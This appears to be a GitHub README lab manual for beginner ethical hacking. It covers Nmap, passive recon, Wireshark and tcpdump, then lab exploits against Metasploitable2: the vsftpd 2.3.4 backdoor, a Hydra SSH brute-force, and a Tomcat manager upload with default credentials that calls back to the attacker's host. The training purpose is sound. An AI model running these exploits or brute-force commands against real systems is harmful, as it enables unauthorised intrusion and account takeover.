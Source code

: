 
# 🛡️ Day 2 – Cybersecurity Lab Manual

This repository contains beginner-friendly, hands-on **penetration testing exercises** using **Kali Linux**, **Metasploitable2**, and common cybersecurity tools. These labs are ideal for students learning ethical hacking and real-world security analysis.

---

##  Theory Recap

### Key Concepts:
- **IP Address**: Unique identifier for a device on a network
- **Ports**: Logical endpoints (e.g., port 80 = HTTP)
- **Protocols**:
  - **TCP** – reliable, connection-based (3-way handshake)
  - **UDP** – faster, connectionless

###  TCP 3-Way Handshake:
1. SYN →  
2. SYN-ACK →  
3. ACK

---

##  Practical Labs

###  Lab 1: Nmap for Network Scanning

**Goal**: Discover live hosts, open ports, and services.

####  Install Nmap
```bash
sudo apt update
sudo apt install nmap
```

####  Basic Commands:
- Ping scan:
  ```bash
  nmap -sn 192.168.1.0/24
  ```
- Scan specific host:
  ```bash
  nmap 192.168.1.10
  ```
- Scan specific ports:
  ```bash
  nmap -p 22,80,443 192.168.1.10
  ```
- Service version detection:
  ```bash
  nmap -sV 192.168.1.10
  ```
- Aggressive scan:
  ```bash
  nmap -A 192.168.1.10
  ```

Tip: Use `man nmap` for more options.

---

###  Lab 2: Passive Recon – Whois, Nslookup, theHarvester

**Goal**: Gather information about domains without touching the target server directly.

####  Whois
```bash
whois example.com
```

####  Nslookup
```bash
nslookup example.com
```

####  theHarvester
**Install:**
```bash
sudo apt install theharvester
```

**Example:**
```bash
theharvester -d example.com -l 100 -b bing
```

---

### Lab 3: Packet Capture with Wireshark

**Goal**: Observe live network traffic.

#### Steps:
1. Open Wireshark: `sudo wireshark`
2. Select your network interface (e.g., `eth0`)
3. Start capture
4. Visit a website
5. Stop capture
6. Apply filter: `http` or `tcp.port == 80`
7. Right-click a packet → Follow TCP Stream

---

### Lab 4: tcpdump (CLI Packet Capture)

**Goal**: Capture packets using the command line.

#### Basic Commands:
- Start capture:
  ```bash
  sudo tcpdump -i eth0
  ```
- Filter HTTP traffic:
  ```bash
  sudo tcpdump -i eth0 port 80
  ```
- Save to a file:
  ```bash
  sudo tcpdump -i eth0 -w output.pcap
  ```

#### Open `.pcap` in Wireshark:
```bash
wireshark output.pcap
```

---

## Metasploitable2 Exploitation Labs

### Setup
- **Kali Linux** as attacker
- **Metasploitable2** as vulnerable target
- Same Host-Only or NAT network

---

### Exercise 1: Discover Target Machine
```bash
netdiscover -r 192.168.56.0/24
```

---

### Exercise 2: Scan for Open Ports
```bash
nmap -sS -sV <TARGET_IP>
```

---

### Exercise 3: Exploit FTP – vsftpd 2.3.4
```bash
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <TARGET_IP>
run
```

---

### Exercise 4: Web Directory Enumeration
```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
```

---

### Exercise 5: SSH Brute-force Attack
```bash
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
```

---

### Exercise 6: Exploit Tomcat Manager
```bash
use exploit/multi/http/tomcat_mgr_upload
set RHOST <TARGET_IP>
set RPORT 8180
set HttpUsername tomcat
set HttpPassword tomcat
set LHOST <KALI_IP>
run
```

---




---

## Disclaimer

This lab is for **educational purposes only**. Do not run these scans or exploits on real-world or unauthorized networks.

---
